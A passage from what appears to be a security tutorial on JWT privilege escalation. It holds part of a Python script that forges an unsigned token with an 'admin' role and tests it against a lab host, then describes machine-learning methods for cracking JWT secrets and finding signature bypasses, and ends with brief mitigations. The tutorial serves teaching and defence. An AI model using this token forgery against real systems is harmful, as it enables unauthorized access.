    return f"{new_header_b64}.{new_payload_b64}."


def test_privilege_escalation(target_url, tampered_token):
    """Test if the tampered token grants elevated privileges."""
    headers = {'Authorization': f'Bearer {tampered_token}'}
    response = requests.get(target_url, headers=headers)
    
    if response.status_code == 200:
        print(f"[+] SUCCESS: Admin access granted!")
    else:
        print(f"[-] FAILED: Status {response.status_code}")


def main():
    original_jwt = "eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoxMzM3LCJyb2xlIjoidXNlciJ9.sig"
    target_url = "http://vulnerable-app.lab/admin/dashboard"
    
    tampered_jwt = create_tampered_jwt(original_jwt, "admin")
    test_privilege_escalation(target_url, tampered_jwt)


if __name__ == "__main__":
    main()
```

#### AI-ML-Enhanced Attack Techniques

**1. Deep Learning for JWT Secret Key Cracking**

Neural networks can accelerate JWT secret key discovery by learning patterns in weak secrets commonly used by developers. A recurrent neural network (RNN) or transformer model trained on massive datasets of leaked credentials and common password patterns can generate high-probability secret key candidates. The model learns that developers often use project names, company names, or dictionary words with minor modifications as JWT secrets. Unlike brute-force approaches that try random combinations, the ML model prioritizes guesses like `company_secret_2023` or `jwt_signing_key`. The model can incorporate contextual information extracted during reconnaissance to personalize the attack. Transfer learning allows fine-tuning on organization-specific naming conventions. This approach reduces the keyspace from astronomically large to a prioritized list of statistically likely candidates.

**2. Sequence-to-Sequence Models for Role Discovery**

Encoder-decoder architectures can predict valid role names by analyzing application behavior and error messages across endpoints. The sequence model is trained on datasets of role-permission mappings from various applications to understand common authorization hierarchies. When attacking a new target, the model generates candidate role names (`superadmin`, `root`, `administrator`) and predicts which variations are most likely to grant elevated privileges. By analyzing the semantic relationship between access-denied error messages and attempted roles, the model refines its predictions. The model can also predict role names in non-English applications by learning multilingual authorization terminology. This technique identifies non-obvious role names that manual fuzzing would miss.

**3. Reinforcement Learning for Signature Bypass Discovery**

An RL agent can systematically explore JWT implementation vulnerabilities by learning which manipulation strategies succeed against different server configurations. The agent's state space includes various JWT modification techniques: algorithm switching, key injection, signature stripping, and header manipulation. Actions involve trying different attack combinations, and rewards are based on server responses. Through exploration, the agent discovers servers accepting tokens with trailing characters in signatures or vulnerable to Unicode normalization issues. The trained agent can be deployed against new targets, quickly identifying which exploitation strategies work. This automated approach discovers novel bypass techniques that manual testing might miss.

**4. Graph Neural Networks for Permission Mapping**

Graph Neural Networks (GNNs) can model complex role-permission relationships by representing the application's authorization structure as a graph and predicting escalation paths. Nodes represent roles, permissions, and resources, while edges encode access relationships. The GNN is trained on observed access patterns to learn the authorization model. By analyzing graph structure, the model identifies "bridge" roles serving as stepping stones to higher privileges and discovers inconsistencies in the permission graph. The model also identifies "orphan" permissions—access rights not properly assigned—which may be accessible through direct parameter injection.

#### Mitigation Application

To prevent this attack, implement robust token validation:

1. **Always verify JWT signatures** using secure algorithms (RS256 preferred)
2. **Never trust client-supplied role claims** - look up roles from the database
3. **Implement algorithm allowlisting** - reject tokens with `none` algorithm
4. **Use short token expiration** and implement token revocation

#### Mitigation Workflow Diagram



---
